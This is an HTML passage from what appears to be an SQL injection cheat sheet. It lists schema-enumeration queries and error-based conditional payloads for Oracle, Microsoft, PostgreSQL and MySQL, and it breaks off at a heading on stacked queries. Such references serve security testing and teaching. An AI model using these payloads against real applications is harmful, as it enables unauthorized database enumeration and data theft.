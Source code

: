                     SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'<br>
                </code></td>
            </tr>
            <tr>
                <th>
                    PostgreSQL
                </th>
                <td><code>
                    SELECT * FROM information_schema.tables<br>
                    SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'<br>
                </code></td>
            </tr>
            <tr>
                <th>
                    MySQL
                </th>
                <td><code>
                    SELECT * FROM information_schema.tables<br>
                    SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'<br>
                </code></td>
            </tr>
        </tbody></table>
        <h2 id="conditional-errors">Conditional errors</h2>
        <p>
            You can test a single boolean condition and trigger a database error if the condition is true.
        </p>
        <table class="is-nonresponsive-table">
            <tbody><tr>
                <th>
                    Oracle
                </th>
                <td><code>
                    SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual
                </code></td>
            </tr>
            <tr>
                <th>
                    Microsoft
                </th>
                <td><code>
                    SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END
                </code></td>
            </tr>
            <tr>
                <th>
                    PostgreSQL
                </th>
                <td><code>
                    1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN CAST(1/0 AS INTEGER) ELSE NULL END)
                </code></td>
            </tr>
            <tr>
                <th>
                    MySQL
                </th>
                <td><code>
                    SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')
                </code></td>
            </tr>
        </tbody></table>
        <h2 id="batched-or-stacked-queries">Batched (or stacked) queries</h2>
        <p>